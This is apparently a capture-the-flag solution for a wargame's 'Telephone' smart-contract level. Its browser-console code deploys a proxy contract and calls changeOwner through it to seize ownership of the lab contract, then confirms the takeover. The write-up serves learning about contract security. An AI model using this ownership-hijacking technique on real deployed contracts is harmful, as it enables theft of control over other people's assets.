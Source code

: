 # Telephone

Type in the browser console:

```
> await contract.owner() == player
false
```

Deploy a contract with Remix using attached Solidity files ([interfaces/ITelephone.sol](./src/interfaces/ITelephone.sol) and [contracts/TelephoneProxy.sol](./src/contracts/TelephoneProxy.sol))

Copy the ABI and deployed contract address from Remix and run the following code in the browser console:

```
var abi = [
  {
    "inputs": [
      {
        "internalType": "address",
        "name": "_owner",
        "type": "address"
      }
    ],
    "name": "changeOwner",
    "outputs": [],
    "stateMutability": "nonpayable",
    "type": "function"
  },
  {
    "inputs": [
      {
        "internalType": "address",
        "name": "_telephoneAddress",
        "type": "address"
      }
    ],
    "stateMutability": "nonpayable",
    "type": "constructor"
  }
];
var proxyAddress = "*redacted*";
var proxyContract = new web3.eth.Contract(abi, proxyAddress);
await proxyContract.methods.changeOwner(player).send({ from: player });
```

Type in the browser console:

```
> await contract.owner() == player
true
```

Level finished.
